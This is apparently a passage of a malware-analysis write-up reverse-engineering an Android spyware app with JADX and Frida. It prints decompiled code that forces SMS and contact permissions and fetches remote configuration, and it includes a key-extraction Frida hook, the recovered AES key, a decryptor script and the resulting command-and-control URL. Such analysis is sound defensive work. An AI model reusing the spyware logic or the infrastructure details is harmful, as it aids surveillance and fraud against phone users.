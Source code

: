 ## Lets first analyse the activites and services present in the app using JADX. 

We see multiple activites and service and few stand very suspicious :

![images](images/susAct.png)

## Let's have a look at the permissions requested by the app in the Manifest file:

![images](images/manifestPerms.png)

This app requests an unusually large number of permissions, many of which are highly invasive and typical of spyware, banking trojans, or surveillance malware.

![images](images/susPerms.png)

1) The above permissions are very common in malwares to do the listed actions. 

2) Also there are below permissions which if may lead to potential frauds : 

![images](images/susPerms2.png)

## Now let's breakdown the MainActivity :

![images](images/ManifestMA.png)

```
private boolean areAllPermissionsGranted() {
        return fj.a(this, "android.permission.READ_CONTACTS") == 0 && fj.a(this, "android.permission.CALL_PHONE") == 0 && fj.a(this, "android.permission.READ_SMS") == 0 && fj.a(this, "android.permission.RECEIVE_SMS") == 0 && fj.a(this, "android.permission.SEND_SMS") == 0;
    }
```

- Makes sure that the above permissions are given before starting the app , if these permissions aren't given then the user cannot use the app (**THE USER IS FORCED TO TURN ON THE PERMISSIONS**)


- If we check the "usage" of the function, it is used in the method `requestPermissions`, which is called in the OnCreate method.

![image](images/permissionfuncUsage.png)
![image](images/OnCreate.png)

- If the permissions are all given , it calls another method `fetchAppConfiguration`.

Let's look into the fetchAppConfiguration method :

```
private void fetchAppConfiguration() {
        try {
            String address = deviceUtils.getAddress();
            String decrypt = AESEncrypt.decrypt(deviceUtils.readAssets("api.txt"), Decrypt.getSecretKey());
            final AsyncHttpClient asyncHttpClient = new AsyncHttpClient();
            asyncHttpClient.addHeader("Content-Type", RequestParams.APPLICATION_JSON);
            asyncHttpClient.addHeader("Authorization", "Bearer " + decrypt);
            asyncHttpClient.get(address, new AsyncHttpResponseHandler() { // from class: com.errorforcode.netix.MainActivity.1
                @Override // com.loopj.android.http.AsyncHttpResponseHandler
                public void onFailure(int i, Header[] headerArr, byte[] bArr, Throwable th) {
                    Toast.makeText(MainActivity.this.context, "Fetch address error: " + i, 1).show();
                    MainActivity.this.finish();
                }

                @Override // com.loopj.android.http.AsyncHttpResponseHandler
                public void onSuccess(int i, Header[] headerArr, byte[] bArr) {
                    try {
                        String decrypt2 = AESEncrypt.decrypt(new String(bArr), Decrypt.getSecretKey());
                        MainActivity.database.setString(ClientCookie.DOMAIN_ATTR, decrypt2);
                        MainActivity.database.setString("icon", "Normal");
                        MainActivity.this.fetchConfiguration(asyncHttpClient, "https://" + decrypt2 + "/users/" + MainActivity.deviceUtils.readAssets("port.txt") + "/config");
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            });
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
```
- This is a pretty suspicious function because of the following reasons :

![images](images/fakeURLget.png)

- If we go to the definition of the `deviceUtils.getAddress` definition : 

```
 public String getAddress() throws Exception {
        StringBuilder sb = new StringBuilder("https://");
        String decrypt = AESEncrypt.decrypt(readAssets("core.txt"), Decrypt.getSecretKey());
        String decrypt2 = AESEncrypt.decrypt(readAssets("acc.txt"), Decrypt.getSecretKey());
        String decrypt3 = AESEncrypt.decrypt(readAssets("ns.txt"), Decrypt.getSecretKey());
        sb.append(decrypt);
        sb.append("/client/v4/accounts/");
        sb.append(decrypt2);
        sb.append("/storage/kv/namespaces/");
        sb.append(decrypt3);
        sb.append("/values/test");
        return sb.toString();
    }
```
We see that the URL is being extracted from various files from the `assets` folder and then decrypted using a secret key. 

Let's try to find the URL: 

The contents in the :

- core.txt : Mn6J47+7OPh5Oev9UkTH5MgASX+WlZSOeIjODT0C5pXGF6iwsTh28tTdh74zqBWF
- acc.txt : 0p1SEi9/UkhuMhUGx+2aEvOJ+IioKHaw5nQNHqyo6hghj9+lE1EcLCS202UN40ZRqYyfOrbuIiyJ5cKVOdU79A==
- ns.tst : i8BzP5dpLusLyVaMQfyT9GT3JkMNNUJEYKEG9KYIkECid2rLn3PL+H1TGaNdHF406tjdEMBHTHLoiEr9zsParg==

Now, lets try to find the secret key : 

![image](images/keynative.png)

Below is the Frida Script to find the secret key from the native file (**libnetix.so**):

```
Java.perform(function () {
    const Decrypt = Java.use("com.errorforcode.netix.Utils.Encrypt.Decrypt");
    const nativeGetSecretKey = Module.findExportByName("libnetix.so", "Java_com_errorforcode_netix_Utils_Encrypt_Decrypt_getSecretKey");
    
    if (nativeGetSecretKey) {
        Interceptor.attach(nativeGetSecretKey, {
            onLeave: function (retval) {
                const env = Java.vm.getEnv();
                const key = env.getStringUtfChars(retval, null).readCString();
                console.log("\n[+] REAL SECRET KEY:", key, "\n");       
            }
        });
    } else {
        console.error("[-] Error: libnetix.so or getSecretKey() not found!");
    }
});
```

![image](images/secretKey.png)

`&hX2aJ7$SdfW8!zQ9uB1Yx4LmN$XvG8C` -> This is the secret key.

Once the key is found , we can decrypt the URL specified. he python script for the same is mentioned below.

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

def decrypt_aes(encrypted_data, key):
    encrypted_bytes = base64.b64decode(encrypted_data)
    key_bytes = key.encode('utf-8')
    iv = encrypted_bytes[:16]
    ciphertext = encrypted_bytes[16:]
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv)
    decrypted = unpad(cipher.decrypt(ciphertext), AES.block_size)
    
    return decrypted.decode('utf-8')

key = "&hX2aJ7$SdfW8!zQ9uB1Yx4LmN$XvG8C"
core_enc = "Mn6J47+7OPh5Oev9UkTH5MgASX+WlZSOeIjODT0C5pXGF6iwsTh28tTdh74zqBWF"
acc_enc = "0p1SEi9/UkhuMhUGx+2aEvOJ+IioKHaw5nQNHqyo6hghj9+lE1EcLCS202UN40ZRqYyfOrbuIiyJ5cKVOdU79A=="
ns_enc = "i8BzP5dpLusLyVaMQfyT9GT3JkMNNUJEYKEG9KYIkECid2rLn3PL+H1TGaNdHF406tjdEMBHTHLoiEr9zsParg=="

try:
    core_decrypted = decrypt_aes(core_enc, key)
    acc_decrypted = decrypt_aes(acc_enc, key)
    ns_decrypted = decrypt_aes(ns_enc, key)
    url = f"https://{core_decrypted}/client/v4/accounts/{acc_decrypted}/storage/kv/namespaces/{ns_decrypted}/values/test"
    
    print("Decrypted Values:")
    print(f"core.txt: {core_decrypted}")
    print(f"acc.txt: {acc_decrypted}")
    print(f"ns.txt: {ns_decrypted}")
    print("\nConstructed URL:")
    print(url)

except Exception as e:
    print(f"Decryption failed: {str(e)}")
    print("Possible reasons:")
    print("- Incorrect key")
    print("- Different AES mode was used (e.g., ECB instead of CBC)")
    print("- Different padding scheme")
    print("- IV handling might be different in the original implementation")
```

The output url is :

**https://api.cloudflare.com/client/v4/accounts/3667505da85673d21e3204b3d7c5f313/storage/kv/namespaces/356bccff1a3747cc815a5bcb8a5609cd/values/test**

Let's go back to where we left in the MainActivity : 

















